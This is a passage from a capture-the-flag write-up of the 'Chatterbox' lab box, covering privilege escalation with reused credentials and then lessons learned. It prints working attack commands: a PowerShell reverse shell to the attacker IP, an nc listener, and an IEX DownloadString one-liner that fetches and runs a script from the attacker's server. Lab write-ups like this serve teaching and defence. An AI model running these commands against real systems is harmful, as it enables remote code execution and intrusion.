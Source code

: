 Third, we’ll use these credentials to start PowerShell and send a (hopefully privileged) reverse shell back to our attack machine.

In the attack machine, copy the _shell.ps1_ script we used earlier and save it in the file _shell-admin.ps1_.

```
cp shell.ps1 shell-admin.ps1
```

Change _shell-admin.ps1_ to send a reverse shell to our attack machine on port 6666.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

Setup a python server in the directory that the script resides in.

```
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```
nc -nlvp 6666
```

On the target machine, use the credentials to start PowerShell to download the _shell-admin.ps1_ script, run it and send a reverse shell back to our attack machine.

```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.7:5555/shell-admin.ps1'](http://10.10.14.7:5555/shell-admin.ps1'))" -Credential $cred
```

We get a shell with administrator privileges!

![](../img/Chatterbox Writeup wo Metasploit/1_FzEuxFT88c3h8BlJVEsEVg.png)

Now we can view the _root.txt_ flag without having to change the ACL permissions on it.

![](../img/Chatterbox Writeup wo Metasploit/1_Bf2Jui2BxcVzj2W4SI-wIg.png)

# Lessons Learned

To gain an initial foothold on the box we exploited one vulnerability.

1. Buffer Overflow vulnerability. The AChat chat service being used was vulnerable to a known remote buffer overflow vulnerability. This allowed us to execute shell code on the box and send a reverse shell back to our attack machine. Since this is a known vulnerability, the administrator should have used the patched version of AChat or completely disabled the service if a patch is not available.

To escalate privileges we exploited three vulnerabilities.

1. Security misconfiguration. The *Alfred *user had full access on the _Administrator_ directory and owned the _root.txt_ file. Although we weren’t initially able to view the _root.txt_ file, we did own it so we simply granted ourselves access to view the file. The administrator should have conformed to the principle of least privilege when setting up user permissions.
